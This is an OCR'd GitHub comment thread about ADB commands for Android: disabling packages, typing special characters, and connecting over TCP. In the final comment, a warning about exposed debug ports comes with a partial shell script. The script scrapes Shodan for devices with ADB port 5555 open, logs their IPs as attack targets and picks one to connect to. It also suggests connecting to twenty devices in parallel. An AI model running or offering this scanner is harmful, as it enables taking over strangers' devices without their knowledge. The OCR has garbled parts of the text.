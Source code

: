 Package wise adb shell pm disable-user –user 0 Stop auto-update for all apps adb shell pm disable-user com.android.vending @wuseman wuseman commented on Aug 20, 2022 How to use & in adb shell input text ‘asdas&’? I am trying to insert a text which contains &. But it is not working. Note: %, $, #, ‘@’ etc. special characters are working well except ^, & characters in text value for adb input.

adb shell input text ‘foo&’ adb shell input text ‘foo^’ adb shell input text ‘foo&^’ adb shell input text ‘foo&^’ adb shell echo Hello “&” World adb shell echo Hello & World On Older Devices the below command probably works fine as well adb shell input keyevent KEYCODE\_AMPERSAND @HeadStudios HeadStudios commented on Aug 20, 2022 Yeh but… how do you connect to Android shell as it doesn’t give name as IP address when you do adb devices so you can’t just use that right? Can’t find that information but I was doing it before?

@wuseman wuseman commented on Aug 20, 2022 • You need to connect to your device via adb connect adb connect : First you need to enable tcp mode as below with usb cable connected Plugin USB and execute adb tcpip 5555 Remove USB Cable and connect to your device via network: adb connect :5555 Now you can work with your device via network, enter shell as usual: adb shell warning WARNING: \*Don’t forget to DISCONNECT when you have finished debugging. You can be in danger and may be listed at [shodan.io](http://shodan.io/) and other sites similiar to shodan if you will keep tcpip be running in background. We can find your device via a simple portscan via masscan or similiar tools, so use below command when you are done in shell:

adb disconnect To show you the danger with keep tcp mode running, for more tips to stay safe you can visit the below url for get latest commands since some are out of date I see here: [https://wuseman.github.io/adb-cheatsheet/](https://wuseman.github.io/adb-cheatsheet/)

You can copy and paste in any terminal and you are connected to a random device that has tcpip running without device owners knowledge, there is no way to figure out wihtout list connected devices ON the device. Therefore, take my warning seriously! Within \~1-3 seconds you have connected to a device. Now imagine if we use xargs -n1 -P20, then we connect to 20 device at same time. So be careful!!

## Port for ABD

PORT=“5555”

## Shodan FILTER:

FILTER=“android+debug+bridge”

## Source URL:

TARGETS=“[https://www.shodan.io/search?query=${FILTER}”](https://www.shodan.io/search?query=$%7BFILTER%7D%E2%80%9D)

function findTargets() { curl -sL ${TARGETS}|awk ‘!seen\[$0]++’

|grep -E -o “(\[0-9]{1,3}\[.]){3}\[0-9]{1,3}”

|awk ‘!seen\[$0]++’ |tee wadb-attack.log }

function adbConnect() { grep -E -o “(\[0-9]{1,3}\[.]){3}\[0-9]{1,3}” wadb-attack.log

|sed ‘s/$/:5555/g’|tee target.txt shuf -n1 target.txt
